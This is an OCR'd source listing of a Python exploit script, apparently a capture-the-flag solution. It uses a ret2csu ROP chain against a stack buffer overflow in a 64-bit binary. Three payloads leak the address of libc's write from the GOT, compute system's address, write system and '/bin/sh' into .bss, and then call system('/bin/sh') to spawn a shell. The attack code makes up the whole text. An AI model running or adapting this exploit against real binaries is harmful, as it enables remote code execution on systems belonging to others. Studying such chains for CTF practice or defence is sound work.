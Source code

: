 ``` python
print "got_write: " + hex(got_write)
got_read = elf.got['read']
print "got_read: " + hex(got_read)

main = 0x400564

off_system_addr = libc.symbols['write'] - libc.symbols['system']
print "off_system_addr: " + hex(off_system_addr)

#rdi=  edi = r13,  rsi = r14, rdx = r15 
#write(rdi=1, rsi=write.got, rdx=4)
payload1 =  "\x00"*136
payload1 += p64(0x400606) + p64(0) +p64(0) + p64(1) + p64(got_write) + p64(1) + p64(got_write) + p64(8) # pop_junk_rbx_rbp_r12_r13_r14_r15_ret
payload1 += p64(0x4005F0) # mov rdx, r15; mov rsi, r14; mov edi, r13d; call qword ptr [r12+rbx*8]
payload1 += "\x00"*56
payload1 += p64(main)

p.recvuntil("Hello, World\n")

print "\n#############sending payload1#############\n"
p.send(payload1)
sleep(1)

write_addr = u64(p.recv(8))
print "write_addr: " + hex(write_addr)

system_addr = write_addr - off_system_addr
print "system_addr: " + hex(system_addr)

bss_addr=0x601028

p.recvuntil("Hello, World\n")

#rdi=  edi = r13,  rsi = r14, rdx = r15 
#read(rdi=0, rsi=bss_addr, rdx=16)
payload2 =  "\x00"*136
payload2 += p64(0x400606) + p64(0) + p64(0) + p64(1) + p64(got_read) + p64(0) + p64(bss_addr) + p64(16) # pop_junk_rbx_rbp_r12_r13_r14_r15_ret
payload2 += p64(0x4005F0) # mov rdx, r15; mov rsi, r14; mov edi, r13d; call qword ptr [r12+rbx*8]
payload2 += "\x00"*56
payload2 += p64(main)

print "\n#############sending payload2#############\n"
p.send(payload2)
sleep(1)

p.send(p64(system_addr))
p.send("/bin/sh\0")
sleep(1)

p.recvuntil("Hello, World\n")

#rdi=  edi = r13,  rsi = r14, rdx = r15 
#system(rdi = bss_addr+8 = "/bin/sh")
payload3 =  "\x00"*136
payload3 += p64(0x400606) + p64(0) +p64(0) + p64(1) + p64(bss_addr) + p64(bss_addr+8) + p64(0) + p64(0) # pop_junk_rbx_rbp_r12_r13_r14_r15_ret
payload3 += p64(0x4005F0) # mov rdx, r15; mov rsi, r14; mov edi, r13d; call qword ptr [r12+rbx*8]
payload3 += "\x00"*56
payload3 += p64(main)

print "\n#############sending payload3#############\n"
```